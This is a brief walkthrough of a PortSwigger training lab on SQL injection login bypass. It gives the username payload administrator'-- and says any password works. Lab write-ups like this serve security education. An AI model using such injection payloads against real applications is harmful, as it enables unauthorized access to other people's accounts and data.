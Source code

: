 ```yaml
---
title: PortSwigger - SQLi 2 - SQLi Allowing Authentication Bypass
date: 2023-03-02
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Apprentice`

## 🎯 Goal

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.

## ✅ Solution

In the Username field of the Login form:

````text
administrator'--
````

Anything can be put in the password field:

````text
abc
````
